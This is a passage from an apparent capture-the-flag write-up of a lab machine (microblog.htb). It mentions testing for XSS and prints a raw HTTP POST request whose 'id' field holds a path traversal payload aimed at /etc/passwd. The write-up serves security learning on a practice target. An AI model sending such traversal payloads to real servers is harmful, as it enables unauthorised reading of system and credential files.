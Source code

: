 on tag h1  we able to input our query, during the test i tried to check **XSS** vulnerability like image below.

![](/assets/img/format/xss.png)

detect path traversal vulnerabillity from edit request

```bash
POST /edit/index.php HTTP/1.1
Host: tester.microblog.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 52
Origin: http://tester.microblog.htb
DNT: 1
Connection: close
Referer: http://tester.microblog.htb/edit/
Cookie: username=6tgaipupd3d0t9d2om0f7rfhe1
Upgrade-Insecure-Requests: 1

id=../../../../../../../../etc/passwd&header=testeer
```

![](/assets/img/format/4.png)
